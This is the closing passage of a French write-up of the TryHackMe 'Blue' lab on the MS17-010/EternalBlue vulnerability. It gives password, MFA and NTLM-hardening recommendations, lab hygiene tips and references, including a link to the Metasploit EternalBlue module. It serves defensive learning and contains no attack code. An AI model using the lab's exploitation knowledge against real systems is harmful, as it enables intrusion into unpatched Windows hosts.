- **Politique de mots de passe robuste** : longueur minimale élevée (≥14 caractères), interdiction des mots de dictionnaire + variations triviales (le cas `Password321` est l'exemple-type à proscrire).
- **MFA** partout où c'est possible, pour que la compromission d'un hash NTLM seul ne suffise plus.
- **Rotation et audit** : auditer régulièrement les comptes locaux avec des outils comme `secedit`/`DSInternals`, et bannir les mots de passe déjà présents dans des fuites connues (listes type "Have I Been Pwned" intégrées à la politique de mot de passe AD).
- Désactiver ou renommer les comptes locaux à privilèges inutiles, limiter l'authentification NTLM au profit de Kerberos quand c'est possible.

### Côté hygiène générale observée pendant ce lab
- Toujours faire tourner son instance d'attaque sur l'interface VPN dédiée (`tun0`), jamais l'IP NAT, cela vaut aussi en défense : s'assurer qu'aucun service interne n'écoute par erreur sur une interface exposée.
- Avant de partager des logs ou captures d'écran (write-up, rapport de pentest), **assainir** les identifiants, hashs et adresses IP réelles si le contexte n'est pas un lab jetable.

## 10. Références

- [TryHackMe, Room Blue](https://tryhackme.com/room/blue)
- [Microsoft, MS17-010 Security Bulletin](https://technet.microsoft.com/en-us/library/security/ms17-010.aspx)
- [CVE-2017-0143,  MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143)
- [Rapid7, MS17-010 EternalBlue module](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)
- [Microsoft, Customer Guidance for WannaCrypt Attacks](https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/)
